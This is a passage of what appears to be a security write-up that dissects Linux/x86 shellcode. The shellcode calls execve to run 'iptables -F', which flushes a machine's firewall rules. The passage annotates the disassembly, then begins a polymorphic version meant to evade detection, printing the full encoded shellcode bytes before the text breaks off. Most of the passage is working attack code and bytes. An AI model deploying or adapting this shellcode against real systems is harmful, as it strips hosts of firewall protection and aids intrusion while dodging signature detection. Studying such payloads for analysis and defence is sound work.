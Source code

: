 Follows the function prototype of `execve`:

```cpp
int execve(
  // executable to run
  const char *pathname,

  // array of command-line arguments
  char *const argv[],

  // array of environment variables
  char *const envp[]
);
```

In this case `EBX` is `pathname`, i.e. a pointer to a string indicating the executable to run. While `ECX` is a pointer to an array of pointers, terminated by the DWORD `0x00000000`. On the stack, it would look like this:

```nasm
; *ebx -> '///sbin/iptables'
; *esi -> '-F'
; 0x00000000
```

Follows the rest of the disassembly:

```nasm
                            ; 2nd argument of execve:
                            ;   pointer to array of pointers to strings acting as
                            ;   command-line arguments of the program
00000023  89E1              mov ecx,esp

                            ; 3rd argument of execve:
                            ;   pointer to array of pointers to env. variables
00000025  89C2              mov edx,eax

                            ; call execve syscall
00000027  B00B              mov al,0xb
00000029  CD80              int 0x80
```

These instructions use `execve` to run the command `///sbin/iptables -F`.

## Polymorphic shellcode

Follows the polymorphic version of the shellcode:

```nasm
; Title: Linux/x86 - iptables --flush
; Author: Robert C. Raducioiu
; Web: rbct.it
; Reference: http://shell-storm.org/shellcode/files/shellcode-825.php
; Shellcode: "\x31\xdb\xf7\xe3\x52\x66\xbf\x2d\x46\x66\x57\x89\xe7\x52\xbe\x74\x63\x62\x72\x52\x68\x62\x6c\x65\x73\x68\x1d\x13\x16\x13\x31\x34\x24\x68\x62\x69\x6e\x2f\x68\x5b\x4c\x4d\x01\x31\x34\x24\x89\xe3\x52\x57\x53\xb0\x0a\x40\x54\x59\xcd\x80"
; Length: 58 bytes

global _start

section .text

_start:

    ; clear EBX, EAX, and EDX
    xor ebx, ebx
    mul ebx
    
```